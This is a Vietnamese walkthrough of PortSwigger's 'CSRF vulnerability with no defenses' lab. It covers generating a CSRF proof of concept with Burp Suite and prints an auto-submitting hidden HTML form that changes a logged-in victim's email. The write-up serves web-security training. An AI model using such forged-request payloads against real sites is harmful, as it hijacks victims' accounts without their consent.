 # How to construct a CSRF attack

Việc tạo HTML theo cách thủ công để khai thác CSRF có thể cồng kềnh, đặc biệt là khi request mong muốn chứa một số lượng lớn params hoặc có những điều kỳ quặc khác trong request. Cách dễ nhất để xây dựng khai thác CSRF là sử dụng CSRF PoC generator, được tích hợp trong Burp Suite Professional:

- Chọn bất cứ requests nào trong Burp Suite Professional mà muốn kiểm tra hoặc khai thác.
- Từ context-menu nhấp chuột phải, chọn Engagement tools / Generate CSRF PoC.
- Burp Suite sẽ tạo ra một số HTML mà sẽ kích hoạt request đã chọn (trừ cookie, sẽ tự động thêm bởi trình duyệt của nạn nhân).
- Có thể điều chỉnh các tùy chọn khác nhau trong CSRF PoC generator để tinh chỉnh các khía cạnh của cuộc tấn công. Có thể cần phải làm điều này trong một số tình huống bất thường để đối phó với các tính năng kỳ quặc của requests.
- Sao chép HTML được tạo vào website, xem nó trong trình duyệt được đăng nhập vào website dễ bị tổn thương và kiểm tra xem request dự định có được ban hành thành công hay không và hành động mong muốn xảy ra.

# Lab: CSRF vulnerability with no defenses

![img](https://imgur.com/KUofHKL.png)

### Web page:

![img](https://imgur.com/TvuMeyI.png)

Log in với account được cung cấp: wiener:peter

![img](https://imgur.com/AqtI3jt.png)

Click Update Email và Intercept request này Burp Suite:

![img](https://imgur.com/rIpnCRZ.png)

Truy cập Exploit Server: 

![img](https://imgur.com/hS3wY3V.png)

![img](https://imgur.com/ZE0a7PB.png)

Truy cập *https://github.com/ChrisM-X/PortSwigger-Academy-CheatSheets/blob/master/Cross-site%20Request%20Forgery%20(CSRF)/README.md* để lấy CSRF HTML payload:

    <html>
      <!-- CSRF PoC - generated by Burp Suite Professional -->
      <body>
      <script>history.pushState('', '', '/')</script>
        <form action="https://0a290081042f97a0838e74f5003c005b.web-security-academy.net/my-account/change-email" method="POST">
          <input type="hidden" name="email" value="Test@Test.com" />
          <input type="submit" value="Submit request" />
        </form>
        <script>document.forms[0].submit();</script>
      </body>
    </html>

Chỉnh sửa URL và copy vào phần body, sau đó click Store: 

![img](https://imgur.com/ntSeppk.png)

View exploit để xác nhận và cuối cùng Deliver exploit to the victim.

Solved the lab!

![img](https://imgur.com/UAldlL8.png)
